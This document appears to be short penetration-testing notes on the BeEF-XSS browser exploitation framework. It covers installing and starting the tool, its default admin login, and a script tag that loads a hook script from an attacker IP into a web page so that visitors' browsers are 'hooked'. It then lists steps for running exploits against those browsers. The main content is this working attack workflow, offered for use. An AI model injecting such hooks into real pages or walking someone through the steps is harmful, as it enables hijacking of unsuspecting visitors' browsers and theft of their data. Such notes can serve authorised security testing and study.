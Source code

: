 ## BeEF-XSS - Browser Exploitation Framework

Install:

```bash
sudo apt install beef-xss 
```

Start:

```bash
sudo beef-xss
```

Stop:

```bash
sudo beef-xss-stop
```

Admin URL:

​	User: beef
​	Pass: password

```html
http://127.0.0.1:3000/ui/panel
```

Inject this code into a page:

```html
<script type=text/javascript src=http://192.168.119.153:3000/hook.js></script>
```

Have the client visit the page and run the script to hook them into the console.

### Exploits

1. Once a client is 'hooked' into BeEF, go into the 'Hooked Browers' panel and find the client.
2. Clicking a host brings up a details page for the browser.  
3. Going to the commands tab shows a list of exploits that can be run.

